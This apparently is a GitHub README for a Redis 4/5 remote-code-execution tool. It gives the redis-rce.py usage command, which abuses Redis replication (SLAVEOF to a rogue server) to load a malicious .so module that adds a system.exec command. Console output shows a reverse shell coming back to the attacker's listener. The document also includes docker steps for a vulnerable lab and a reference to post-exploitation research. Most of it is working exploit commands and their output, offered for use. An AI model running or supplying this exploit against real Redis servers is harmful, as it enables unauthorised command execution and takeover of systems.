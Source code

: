 # Redis-RCE
### remote code execute for redis4 and redis5


#### python code from https://github.com/Ridter/redis-rce

![](./redis-rce.jpg)
#####  通过加载so文件，扩展新命令system.exec进行 命令执行成功
`strings exp_lin.so |grep sys`

```
system
system.exec
sys_errlist.h
sys_nerr
sys_errlist
_sys_siglist

```

![](./redis-exec.jpg)
![](./redis-exec-result.jpg)


### Usage:

`python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so`

```
python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so
test
[*] Connecting to  10.10.20.166:6379...
[*] Listening on 192.168.2.18:21000
[*] Sending SLAVEOF command to server
Accepted connection from 192.168.2.18:3147
[*] Setting filename
[*] Tring to run payload
Accepted connection from 192.168.2.18:21000
[*] Closing rogue server...
Received backconnect, use exit to exit...
$

$ id
uid=100(redis) gid=101(redis) groups=101(redis),101(redis)
$ pwd
/tmp
$ ls
exp_lin.so
exp_osx.so
$


```

### 0x01  docker search redis5
```
docker search redis5
NAME                          DESCRIPTION                                  STARS     OFFICIAL   AUTOMATED
hareemca123/redis5            Redis 5 Alpine                               1                    
pierreprinetti/redis5         An image for redis5 Release Candidates       0                    [OK]
kusanami/redis5.0                                                          0                    
cnbbx/redis5                  redis5                                       0                    
dragonfly201270/redis5                                                     0                    
cffycls/redis5                redis5.0.5                                   0                    
supercaracal/redis5-docker    Redis 5 Container                            0                    [OK]
i3clogic/redis5                                                            0                    
netborg/redis5                Redis 5 for Kubernetes cluster               0                    
libincex/redis5               redis 5.0.3                                  0                    
debbiswal/redis5.0.4_ms_k8s                                                0                    
vadosl/redis5                                                              0                    
arthurepp/redis50m30c5db                                                   0                    
i3clogic/redis5-server                                                     0                    
arthurepp/redis5m3c1db                                                     0                    
rarfaoui/redis5                                                            0                    
damonevking/redis5.0          redis5.0基础镜像                                 0                    
zareefza/redis5                                                            0                    
rajesh6752/redis5                                                          0                    
douyu/redis504                                                             0                    
redis5/tomcat8-mohjen                                                      0                    
redis5/docker-kubernetes                                                   0                    
incu6us/redis5                Redis 5 (beta) to play with a new features   0                    [OK]
yimiding/redis5.05                                                         0                    
jeetkn/centos_redis           centos7 + redis5.0.3+ ReJson + rediSearch    0   
```
### 0x02 docker pull redis5
```
docker pull hareemca123/redis5:alpine
alpine: Pulling from hareemca123/redis5
4fe2ade4980c: Pull complete 
47fa4eeb2853: Pull complete 
4e971ebf579e: Pull complete 
e2187b6a3d91: Pull complete 
b944fad88755: Pull complete 
9b71ca914208: Pull complete 
Digest: sha256:60f6a913f606341be11686f604ef97d79be32d6ee22f5036ea592423e0950ca4
Status: Downloaded newer image for hareemca123/redis5:alpine

```
### 0x03 Start redis5 docker
```
docker run --name redis5 -d -v $PWD:/data --restart=always -p 6379:6379 hareemca123/redis5:alpine

cf1e25077f6e5f88e6ba6a5ae4bcc17e38c27a28961f52932ad7c77c3fc446d9
```


### 0x04 git clone github.com/Ridter/redis-rce


```
redis-rce# ls
exp_lin.so  exp_osx.so  README.md  redis-rce.py
```
### 参考链接：

https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

https://github.com/Ridter
